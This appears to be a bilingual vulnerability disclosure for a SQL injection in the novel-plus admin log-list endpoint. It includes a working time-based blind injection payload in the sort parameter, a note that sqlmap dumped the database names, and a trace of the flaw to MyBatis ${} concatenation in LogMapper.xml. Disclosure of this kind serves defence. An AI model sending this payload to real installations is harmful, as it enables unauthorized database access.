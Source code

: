
# The common/log/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

# novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

> Payload: http://127.0.0.1:8088/common/log/list?limit=10&offset=0&sort=gmt_create AND (SELECT 1155 FROM (SELECT(SLEEP(5)))YVhZ)&order=desc&operation=&username=

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705300429943-63dd8aa9-b069-4ef9-865a-f35097ebb128.png#averageHue=%23131313&clientId=uf69594bc-e91d-4&from=paste&height=585&id=u90d64431&originHeight=790&originWidth=2204&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=143888&status=done&style=none&taskId=u9eba4599-6ba6-4cf1-b98e-fb6f63c990a&title=&width=1632.5927079230914)

The list interface in LogController calls the queryList method from LogService to query logs.

LogController中list接口调用LogService的queryList方法查询日志；

novel-admin/src/main/java/com/java2nb/common/controller/LogController.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298345047-65504545-cadc-4f7e-a387-3bf27d45e880.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=649&id=ua4f4b94c&originHeight=876&originWidth=1072&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=117700&status=done&style=none&taskId=u4da64b9d-e333-4cb9-9c65-9fe8dec5cc1&title=&width=794.0741301694891)

LogServiceImpl calls logMapper to query the logs.

LogServiceImpl中调用logMapper查询日志；

novel-admin/src/main/java/com/java2nb/common/service/impl/LogServiceImpl.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298425700-17707c68-bd80-4c5e-bde7-906a3613a22a.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=651&id=ud9f5f2e3&originHeight=879&originWidth=1030&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=112809&status=done&style=none&taskId=u65d05bc8-812c-47f2-a42e-7c78c32fc53&title=&width=762.9630168606099)

In LogMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

LogMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/LogMapper.xml

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298554780-94226292-b6f7-441e-96c3-67407b1b25b0.png#averageHue=%2354513a&clientId=uac25bd4d-4807-4&from=paste&height=861&id=u2a7f34e0&originHeight=1162&originWidth=1652&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=247962&status=done&style=none&taskId=u985f88b1-2de8-4f2b-b0ec-95e569ef91c&title=&width=1223.7037901492502)







